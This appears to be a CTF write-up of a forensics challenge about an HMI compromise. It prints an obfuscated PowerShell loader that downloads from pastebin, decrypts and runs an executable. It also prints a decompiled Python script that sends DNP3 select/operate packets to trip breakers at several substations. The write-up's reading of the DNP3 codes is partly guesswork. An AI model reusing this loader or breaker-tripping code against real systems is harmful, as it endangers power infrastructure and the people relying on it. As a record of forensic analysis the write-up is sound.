

# Tripping Breakers

## Malware analysis, 481 points

### Description

Attached is a forensics capture of an HMI (human machine interface) containing scheduled tasks, registry hives, and user profile of an operator account. There is a scheduled task that executed in April 2021 that tripped various breakers by sending DNP3 messages. We would like your help clarifying some information. What was the IP address of the `substation_c`, and how many total breakers were tripped by this scheduled task? Flag format: `flag{IP-Address:# of breakers}`. For example if `substation_c`'s IP address was `192.168.1.2` and there were 45 total breakers tripped, the flag would be `flag{192.168.1.2:45}`.

Author: [Cybersecurity & Infrastructure Security Agency](https://www.cisa.gov/)

### Ranking



We qualified ourselves by ending up 9th europewide and really enjoyed this huge CTF with tons of various challenges. Furthermore, national teams, that will participate in the European Cybersecurity Challenge (ECSC) in late September 2021, competed with us, such as **m0unt41n** from Switzerland, shout out to them! We will hopefully go head to head with the competition for the Finals scheduled for 12-14 November 2021!

### Solution

1. [Suspicious files understanding](#suspicious-files-understanding)
2. [Python script recovery](#python-script-recovery)
3. [Analysis of a SCADA implementation](#analysis-of-a-scada-implementation)

This challenge deals with an **Industrial Control System** which is based on the [DNP3](https://en.wikipedia.org/wiki/DNP3) protocol which is mainly used by electrical utilities and water services. We are given folders containing a Windows home directory of the human machine interface operator, known as `operator` and its registry keys and associated values in a JSON file:

```bash
$ tree -d
.
├── operator
[...]
│   ├── AppData
│   │   └── Local
│   │       ├── ConnectedDevicesPlatform
│   │       │   └── L.operator
│   │       ├── PeerDistRepub
│   │       ├── PlaceholderTileLogoFolder
│   │       ├── Publishers
│   │       │   └── 8wekyb3d8bbwe
│   │       │       ├── Fonts
│   │       │       ├── Licenses
│   │       │       ├── mcg
│   │       │       ├── Microsoft.WindowsAlarms
│   │       │       └── SettingsContainer
│   │       ├── Temp
│   │       │   ├── EOTW
│   │       │   ├── Low
│   │       │   └── mozilla-temp-files
│   │       └── VirtualStore
[...]
└── Registry
```

As far as we know, the AppData folder often contains files that can be relevant, thus, we focused on it and found two digital forensics artefacts that seemed weird: 
- A PowerShell script named `wcr_flail.ps1`.
- A `151.txt` file, which is actually an *openssl* encrypted file.

#### Suspicious files understanding 

Once we discovered a PowerShell script, I thought about hidden information in registry hives as I read an article about it this technique recently regarding malware analysis. Here is the script's content:

```bash
$SCOP = ((new-object System.Net.WebClient).DownloadString("https://pastebin.com/raw/rBXHdE85")).Replace("!","f").Replace("@","q").Replace("#","z").Replace("<","B").Replace("%","K").Replace("^","O").Replace("&","T").Replace("*","Y").Replace("[","4").Replace("]","9").Replace("{","=");
$SLPH = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($SCOP));

$E=(Get-ItemProperty -Path $SLPH -Name Blast)."Blast";

$TWR =  "!M[[pcU09%d^kV&l#9*0XFd]cVG93<".Replace("!","SEt").Replace("@","q").Replace("#","jcm").Replace("<","ZXI=").Replace("%","GVF").Replace("^","BU").Replace("&","cTW").Replace("*","zb2Z").Replace("[","T").Replace("]","iZW1").Replace("{","Fdi");
$BRN = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($TWR));

$D= (Get-ItemProperty -Path $BRN -Name Off)."Off";

openssl aes-256-cbc -a -A -d -salt -md sha256 -in $env:temp$D -pass pass:$E -out "c:\1\fate.exe";
C:\1\fate.exe;
```
```bash
$SCOP = ((new-object System.Net.WebClient).DownloadString("https://pastebin.com/raw/rBXHdE85")).Replace("!","f").Replace("@","q").Replace("#","z").Replace("<","B").Replace("%","K").Replace("^","O").Replace("&","T").Replace("*","Y").Replace("[","4").Replace("]","9").Replace("{","=");
SEtMTTpcU09GVFdBUkVcTWljcm9zb2Z0XFdpbmRvd3NcVGFibGV0UENcQmVsbA==
PS > $SLPH = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($SCOP));
PS > echo $SLPH
HKLM:\SOFTWARE\Microsoft\Windows\TabletPC\Bell
```

We broke down the PowerShell script to display the base64 decoded values and by verifying that no [IEX](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.1) or alike is there, I try to avoid getting malware on my computer to be honest. For instance, for the first variable `$SLPH` we echo-ed it this way:

```bash
$SCOP = ((new-object System.Net.WebClient).DownloadString("https://pastebin.com/raw/rBXHdE85")).Replace("!","f").Replace("@","q").Replace("#","z").Replace("<","B").Replace("%","K").Replace("^","O").Replace("&","T").Replace("*","Y").Replace("[","4").Replace("]","9").Replace("{","=");
SEtMTTpcU09GVFdBUkVcTWljcm9zb2Z0XFdpbmRvd3NcVGFibGV0UENcQmVsbA==
PS > $SLPH = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($SCOP));
PS > echo $SLPH
HKLM:\SOFTWARE\Microsoft\Windows\TabletPC\Bell
```

My guess was right, this is a registry hive : `HKLM:\SOFTWARE\Microsoft\Windows\TabletPC\Bell`. We applied the same process for the second one and we got `HKLM:\SOFTWARE\Microsoft\Wbem\Tower`.

From that, we understood that the values from these registries hives are used to encrypt `151.txt` with openssl, which seems to be our malware. The registry hives associated values are for one the encryption password and for the other the path to the binary. We retrieved them:
- `M4RK_MY_W0Rd5` for the password.
- `\\EOTW\\151.txt` for the relative path to the binary to decrypt.

```bash
PS > $E="M4RK_MY_W0Rd5"
PS > $D="151.txt"
PS > openssl aes-256-cbc -a -A -d -salt -md sha256 -in $env:temp$D -pass pass:$E -out "fate.exe";

$ file fate.exe 
fate.exe: PE32+ executable (console) x86-64, for MS Windows
```

Sounds about right, after decryption, we get `fate.exe` which is a PE32+, which is a PE 64 bits binary from Windows. A little `strings` before getting deeper:

```bash
$ strings fate.exe

[...]
$python36.dll
```

This is very likely to be an executable compiled with Python 3.6, can we extract the bytecode from it?

#### Python script recovery

This great [extractor](https://github.com/extremecoders-re/pyinstxtractor) helped us to *unpack* the binary and get its pieces:
```bash
$ python3 pyinstxtractor.py fate.exe 

[+] Processing fate.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 36
[+] Length of package: 5716392 bytes
[+] Found 59 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: trip_breakers.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python36 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: fate.exe

You can now use a python decompiler on the pyc files within the extracted directory
```

Interesting stuff here, let's look at `trip_breakers.pyc`:
```bash
$ file trip_breakers.pyc
trip_breakers.pyc: python 3.9 byte-compiled
```

Oh. This is awkward. We just saw a Python 3.6 DLL file used in the executable, how can this script be compiled with Python 3.9? We tried to decompile it anyway but it failed. 

After a while we understood that 3.9 is the version that I used to launch `pyinstxtractor`, we also noticed its warning afterwards. At this point, either I install Python 3.6 and redo this process or I get to know a bit more about these compiled Python scripts. We obviously went down the second road. We asked ourselves: how can one binary (*e.g.* `file`) know that it is a 3.9 byte-compiled file: is there any magic number or signature? We stumbled upon this [awesome script](https://github.com/google/pytype/blob/master/pytype/pyc/magic.py) from Google's GitHub, which lists Python version and their associated magic number in the `pyc` head, which are in the two first bytes of the compiled script. Indeed, in hex digits, we had `0D 61` which is `3425` in decimal, which matches the latest 3.9 Python version. We replaced it with `20 OD` or `3360` in decimal or the first 3.6 Python version magic number. 

A new decompiler try was a success, end of the `pyc` steganography. Please have a look at the retrieved script before entering the ending chapter:

```python
import struct, socket, time, sys
from crccheck.crc import Crc16Dnp
OPT_1 = 3
OPT_2 = 4
OPT_3 = 66
OPT_4 = 129

class Substation:

    def __init__(self, ip_address, devices):
        self.target = ip_address
        self.devices = []
        self.src = 50
        self.transport_seq = 0
        self.app_seq = 10
        for device in devices:
            self.add_device(device)

        self.connect()

    def connect(self):
        print('Connecting to {}...'.format(self.target))
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((self.target, 20000))
        print('Connected to {}'.format(self.target))

    def add_device(self, device):
        self.devices.append({'dst':device[0],  'count':device[1]})

    def activate_all_breakers(self, code):
        for device in self.devices:
            dnp3_header = self.get_dnp3_header(device['dst'])
            for x in range(1, device['count'] * 2, 2):
                dnp3_packet = dnp3_header + self.get_dnp3_data(x, OPT_1, code)
                self.socket.send(dnp3_packet)
                time.sleep(2)
                dnp3_packet = dnp3_header + self.get_dnp3_data(x, OPT_2, code)
                self.socket.send(dnp3_packet)
                time.sleep(5)

    def get_dnp3_header(self, dst):
        data = struct.pack('<H2B2H', 25605, 24, 196, dst, self.src)
        data += struct.pack('<H', Crc16Dnp.calc(data))
        return data

    def get_dnp3_data(self, index, function, code):
        data = struct.pack('<10BIH', 192 + self.transport_seq, 192 + self.app_seq, function, 12, 1, 23, 1, index, code, 1, 500, 0)
        data += struct.pack('<H', Crc16Dnp.calc(data))
        data += struct.pack('<HBH', 0, 0, 65535)
        self.transport_seq += 1
        self.app_seq += 1
        if self.transport_seq >= 62:
            self.transport_seq = 0
        if self.app_seq >= 62:
            self.app_seq = 0
        return data


def main():
    if socket.gethostname() != 'hmi':
        sys.exit(1)
    substation_a = Substation('10.95.101.80', [(2, 4), (19, 8)])
    substation_b = Substation('10.95.101.81', [(9, 5), (8, 7), (20, 12), (15, 19)])
    substation_c = Substation('10.95.101.82', [(14, 14), (9, 16), (15, 4), (12, 5)])
    substation_d = Substation('10.95.101.83', [(20, 17), (16, 8), (8, 14)])
    substation_e = Substation('10.95.101.84', [(12, 4), (13, 5), (4, 2), (11, 9)])
    substation_f = Substation('10.95.101.85', [(1, 4), (3, 9)])
    substation_g = Substation('10.95.101.86', [(10, 14), (20, 7), (27, 4)])
    substation_h = Substation('10.95.101.87', [(4, 1), (10, 9), (13, 6), (5, 21)])
    substation_i = Substation('10.95.101.88', [(14, 13), (19, 2), (8, 6), (17, 8)])
    substation_a.activate_all_breakers(OPT_3)
    substation_b.activate_all_breakers(OPT_4)
    substation_c.activate_all_breakers(OPT_4)
    substation_d.activate_all_breakers(OPT_4)
    substation_e.activate_all_breakers(OPT_3)
    substation_f.activate_all_breakers(OPT_4)
    substation_g.activate_all_breakers(OPT_3)
    substation_h.activate_all_breakers(OPT_4)
    substation_i.activate_all_breakers(OPT_4)


if __name__ == '__main__':
    main()
```

#### Analysis of a SCADA implementation

From here, we reminded us what we were looking for:
- The IP address associated to the `substation_c`.
- The number of breakers that were tripped by this malicious scheduled task.

First goal is easily completed:
```python
substation_c = Substation('10.95.101.82', [(14, 14), (9, 16), (15, 4), (12, 5)])
```

`10.95.101.82` is the requested IP address, then we needed to understand these `OPT_i` variables, which seemed to be the different kind of operations done by the script.

We looked up for documentation and found [this script](https://github.com/dnp3/opendnp3/blob/132f2fdb62ad9325efa8293fb122800ee2476aa2/generation/dnp3/src/main/scala/com/automatak/render/dnp3/enums/FunctionCode.scala) which explains that `3` and `4` are respectively the `SELECT` and `OPERATE` operations on devices. One can not `OPERATE` without at first `SELECT`-ed a device, this is why in the code, the `OPT_1` packet is sent before the `OPT_2` one. Moreover, we did not find anything about the `OPT_3` value which is `66` but that is not the case for the `OPT_4` known as `129` or an operation to send a response after a request. Hence, this script sends most likely responses without being asked? This is probably what made the devices crash. After summing up the substations that sent an `OPT_4` operation, we counted 200 breakers that were tripped. Hence, our guessed flag was `flag{10.95.101.82:200}` which turned out to be the one! FLAG!
